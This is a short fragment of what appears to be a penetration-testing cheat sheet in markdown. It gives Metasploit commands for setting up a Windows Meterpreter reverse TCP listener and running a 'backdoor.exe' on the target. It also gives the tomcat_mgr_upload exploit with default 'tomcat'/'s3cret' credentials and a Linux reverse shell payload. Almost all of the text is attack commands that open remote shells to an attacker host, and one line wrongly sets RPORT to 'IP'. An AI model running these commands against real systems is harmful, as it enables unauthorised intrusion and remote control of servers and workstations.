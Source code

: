 ```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST IP
set LPORT PORT
run

# execute payload on target machine
.\backdoor.exe
```

#### Tomcat Manager Authenticates Upload Code Execution

```bash
service postgresql start && msfconsole
use exploit/multi/http/tomcat_mgr_upload
set TARGET 2
set HttpPassword s3cret
set HttpUsername tomcat
set RHOSTS IP
set RPORT IP
set LHOST IP
set Payload linux/x86/shell/reverse_tcp
exploit
```
